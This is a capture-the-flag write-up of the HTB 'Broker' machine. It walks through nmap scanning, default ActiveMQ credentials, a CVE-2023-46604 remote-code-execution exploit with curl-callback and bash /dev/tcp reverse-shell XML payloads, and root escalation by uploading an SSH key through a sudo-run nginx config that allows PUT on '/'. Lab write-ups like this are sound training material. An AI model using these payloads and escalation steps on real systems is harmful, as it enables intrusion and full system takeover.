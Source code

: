 Broker is a retired machine on HTB Labs with an *easy* difficulty rating. Here is my write-up for it.

## Reconnaissance

We receive an IP address `10.10.11.243` and proceed to explore the box. We start with an `nmap` scan which enumerates commonly used ports and pings them for the services running on them.

```bash
nmap 10.10.11.243 -sC -sV -oN nmap/initial.out
```
We get the following results:
```
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp   open  http        nginx 1.18.0 (Ubuntu)
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
8080/tcp open  http-proxy?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
It tells us that this is a Linux machine (though we already knew this). Furthermore, we have:
- Port 22 with SSH running
- Port 80 with an nginx HTTP server runnign an ActiveMQRealm webapplication
- Port 8080 which seems to be a proxy HTTP

Since port 80 is open, we navigate to it using our browser: `http://10.10.11.243:80`. We get greeted with a login page from the ActiveMQRealm. A quick google search tells us the default credentials are `admin:admin` and this indeed gets us logged in.

Poking around a bit and also reading up on ActiveMQRealm on Google, we find that it is a message broker system, that operates on port 61616. After reading this, we start an additional `nmap` scan for this specific port.

```bash
nmap 10.10.11.243 -sC -sV -p61616 -oN nmap/61616.out
```

We get the following output:
```
PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings:
|   NULL:
|     ActiveMQ
<...SNIP...>
|_    5.15.15
```
Which indeed confirms our earlier findings. Furthermore, it also tells us that the version of ActiveMQ running is `5.15.15`. Although we were able to find this information after logging in, it's good to know that even unauthenticated we still would have found it using `nmap`.

## User access

Now that we have some information about what this box is running, we can try to get an initial foothold. We search for `ActiveMQ 5.15.15 exploit` on Google and find [CVE-2023-46604](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) which is a vulnerability in the Jave OpenWire Protocol used in ActiveMQ. Summarized, we can send a message to the broker and have it create an object of the `Throwable` class with a message. We do this by supplying a `class` and `message` string. However, these strings are not validated; more specifically, it's not checked whether the `class` string actually contains a `Throwable` class. We can supply an arbitrary `class` and it will create it. The exploit then, is to have it create a `org.springframework.context.support.ClassPathXmlApplicationContext` class, which allows configuration of a Spring application via an XML file, which can be on a remote URL. This XML file can then be used to call arbitrary methods with arbitrary parameters. This ofcourse is Remote Code Execution. A more extensive explanation can be found [here](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis). 

We find [a script](https://github.com/X1r0z/ActiveMQ-RCE) written in `Go` that exploits this vulnerability. It sends the encoded payload to the message broker on port `61616`, which forces the server to load the included xml file from our local host. For that we need to start an HTTP server in the same directory:
```bash
python -m http.server
# starts a server on port 8000
```
In this xml file is the setup for this remote code execution, where we can insert out desired command. First we just want to test whether we do indeed get code execution, by having the server ping our host.

```xml
# file: poc.xml
<..SNIP..>

<value>bash</value>
<value>-c</value>
<value>curl http://{my_ip}:1234</

<..SNIP..>
```

For which of course we have a `netcat` listener.
```bash
nc -lvnp 1234
```

We execute the exploit.

```bash
go run main.go -i http://10.10.11.243 -u http://{my_ip}:8000/poc.xml
```

We then see that we:
1. Succesfully receive a GET request on our HTTP python server for the `poc.xml` file.
2. Also receive a GET request on our `netcat` server, meaning we indeed have remote code execution.

Now, we want to use this code execution to set up a reverse shell. We modify the payload in `poc.xml` with a standard reverse shell commmand:

```xml
<..SNIP..>

<value>bash</value>
<value>-c</value>
<value>bash -i &gt;&amp; /dev/tcp/10.10.14.241/1235 0&gt;&amp;1</

<..SNIP..>
```

Notice here, that we use `&gt;` and `&amp;` instead of `>` and `&`. This is because in XML the last two symbols have special meanings, so we need to escape them. (This had me frustrated for a long time; the reverse shell does not work without it but there is no indication for the problem).

We execute the exploit again and indeed find ourselves with a reverse shell. Running `id` tells us we have a shell as the `activemq` user. Navigating to their home directory gives us access to the `user.txt` flag, meaning we have officially powned the user. Nice!

## Root access
Now we'll want to escalate our privileges to the root user, so we can get the final root flag. One of the first checks I always do is checking the `sudo` permissions of this user.
```bash
sudo -l
```
We find that we are allowed to run the `nginx` command as root without supplying a password. From my experience in HTB Labs until now, I'm pretty sure this is the route they intend us to follow. 

(Here, I was stuck for quite a while. I found a few guides on privilege escalation using `nginx`, but could not get any of them to work. In the end, I had to peek a bit at another write-up of this box. The solution used was not one I found at all when checking the internet)

We can exploit `nginx` running as root as follows: We craft our own `nginx` config file and configure it such that it runs in the `/` root folder of the machine. We allow PUT requests through the server, which can be written to the root folder since nginx is running as root. We upload our public `ssh` key file to the `/root/.ssh/authorized_keys/`, such that we can login as the root user using `ssh`

Here is the config file for the `nginx` server
```
user root;
worker_processes 4;
pid /tmp/nginx.pid;

events {
    worker_connections 768;
}

http {
    server {
        listen 1906;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```
We have it run an HTTP server on port 1906 (arbitrary) and have the `/` folder as root. We allow PUT requests using `dav_methods PUT;`. We can check whether the config file is valid using the `-t` parameter:
```bash
sudo nginx -p ./ -t -c config
```
(`-p ./` specifies that the config filepath prefix is just `./`, normally configs are located in `/etc/nginx`)

We then start the server.
```bash
sudo nginx -p ./ -c config
```

Finally, we create an ssh keypair (`root`,`root.pub`) and upload it to the keys directory of the target.
```bash
curl -X PUT http://10.10.11.243:1906/root/.ssh/authorized_keys/ -d ($cat root.pub)
```

Now, using the related private key, we can login as the root user, using `ssh`. 
```bash
ssh root@10.10.11.243 -i root
```
Once logged in, we `cat` the content of the `root.txt` flag and have officially hacked this box!
